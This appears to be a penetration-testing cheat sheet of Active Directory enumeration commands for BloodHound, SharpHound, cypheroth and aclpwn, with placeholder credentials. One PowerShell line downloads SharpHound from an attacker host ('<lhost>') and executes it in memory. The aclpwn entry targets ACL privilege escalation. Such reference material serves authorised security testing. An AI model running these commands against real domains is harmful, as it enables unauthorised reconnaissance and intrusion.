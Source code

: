 # bloodhound

% bloodhound, Active directory enumeration

## start neo4j server
#platform/linux #target/serve #cat/UTILS
https://neo4j.com/docs/

```bash
neo4j console start
```

## bloodhound start IHM
#platform/linux #target/local #cat/RECON
https://github.com/BloodHoundAD/BloodHound

```bash
bloodhound
```

## bloodhound - collect data
#platform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -c all
```

## bloodhound - collect data (alternative)
#platform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -gc <global_catalog> -dc <domain_controler> -c all
```

## sharphound - collect bloodhound data
#platform/windows #target/remote #port/389 #port/631 #cat/RECON
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
import-module sharphound.ps1
invoke-bloodhound -collectionmethod all -domain <domain>
```

## sharphound - collect bloodhound data download and execute
#platform/windows #target/remote #port/389 #port/631 #cat/RECON
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/SharpHound.ps1') | Invoke-BloodHound -CollectionMethod All  -domain <domain>
```

## cypheroth - start
#platform/linux #target/local #cat/RECON 
Toolset that runs cypher queries against Bloodhound's Neo4j backend and saves output to spreadsheets.

https://github.com/seajaysec/cypheroth

```bash
cypheroth -u <bh_user|neo4j> -p <bh_password|exegol4thewin> -d <domain>
```

## aclpwn - from computer to domain - dry run
#platform/linux #target/local #cat/RECON 
Aclpwn.py is a tool that interacts with BloodHound to identify and exploit ACL based privilege escalation paths.

https://github.com/fox-it/aclpwn.py

```
aclpwn -f <computer_name> -ft computer -d <domain> -dry
```



